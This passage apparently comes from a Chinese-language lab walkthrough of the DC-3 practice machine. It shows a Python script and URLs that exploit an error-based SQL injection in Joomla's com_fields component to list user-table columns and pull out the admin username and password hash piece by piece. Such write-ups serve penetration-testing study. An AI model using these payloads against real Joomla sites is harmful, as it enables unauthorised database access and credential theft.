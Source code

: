 ```python

# DC-3靶机的ip
ip = '172.16.1.94'

def get_columns_name(args):
    url = f"http://"+ip+"/index.php?option=com_fields&view=fields&layout=modal&list%5Bfullordering%5D=updatexml(1,concat(0x5e,(exists(select+{args}+from+%23__users)),0x5e),1)"
    v1 = requests.get(url=url).text
    v2 = re.findall('\^1\^',v1)
    if v2:
        print(args)

with open('/usr/share/sqlmap/txt/common-columns.txt','r') as f:
    for l in f.readlines():
        get_columns_name(l[:-1])
```

```bash
# python3 get_columns_name.py 
id
name
username
email
password
password
username
name
params	
```

 直接查询name 内容 ,应该是登录用户名
```python
http://172.16.94/index.php?option=com_fields&view=fields&layout=modal&list%5Bfullordering%5D=updatexml(1,concat(0x5e,(select+name+from+%23__users),0x5e),1)



 XPATH syntax error: '^admin^' 
```

查询password内容
```python
http://172.16.1.94/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x5e,(select+password+from+%23__users),0x5e),1)


XPATH syntax error: '^$2y$10$DpfpYjADpejngxNh9GnmCeyI'
```
密码比较长，而concat只能显示前32个，这里我们需要使用substr函数分段获取

```python


http://172.16.1.94/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x5e,substr((select+password+from+%23__users),1,30),0x5e),1)

'^$2y$10$DpfpYjADpejngxNh9GnmCey^'


http://172.16.1.94/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x5e,substr((select+password+from+%23__users),31,30),0x5e),1)

'^IHCWpL97CVRnGeZsVJwR0kWFlfB1Zu^'


```